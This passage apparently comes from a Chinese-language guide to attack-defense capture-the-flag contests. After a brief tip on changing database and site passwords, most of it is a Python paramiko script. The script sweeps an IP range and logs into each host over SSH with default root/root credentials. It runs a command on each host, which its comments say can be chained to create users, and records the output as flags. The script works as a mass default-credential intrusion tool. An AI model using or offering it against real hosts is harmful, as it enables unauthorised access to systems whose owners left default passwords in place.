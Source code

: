 `mysql` 密码也改。网站配置文件同时改。

同时拿着初始密码扫一波flag. （ 修改比赛时的 用户名、密码、curl 地址）

```python
# coding: utf-8
# author: Qilinge
# version: python-3.7.3
#此脚本适用于全场服务器的初始用户名和密码都一样的情况，在别人修改默认密码之前快速登录别人主机拿到flag
import paramiko
#使用此脚本需安装paramiko库
def catflag(ip):
    try:
        ssh=paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        ssh.connect(ip,username='root',password='root',timeout=1)
        #在此处填写比赛方默认的用户名和密码
        stdin,stdout,stderr=ssh.exec_command("curl www.baidu.com")
        #此处填写要执行的命令(可以用命令链接符创建用户等操作)
        flag=stdout.readlines()
        f=open('flag.txt','a')
        f.write("ip:%s,flag:%s\n" %(ip,flag))
        #flag.txt记录目标主机的flag
        f.close()
        ssh.close()
        print("打开flag.txt查看flag")
    except:
        print("用户或密码错误！")
        pass
xunhuan = int(input("IP地址第几位循环？"))
if xunhuan==3:
    ip1=input("第一位：")
    ip2=input("第二位：")
    ip4=input("第四位：")
    for ip3 in range(0,254):
        #根据需要自行调节IP范围 range(x,y)
        ip = str(ip1)+"."+str(ip2)+"."+str(ip3)+"."+str(ip4)
        print(ip)
        catflag(ip)
if xunhuan==4:
    ip1=input("第一位：")
    ip2=input("第二位：")
    ip3=input("第三位：")
    for ip4 in range(0,254):
        #根据需要自行调节IP范围 range(x,y)
        ip = str(ip1)+"."+str(ip2)+"."+str(ip3)+"."+str(ip4)
        print(ip)
        catflag(ip)
```





## 三、dump 备份
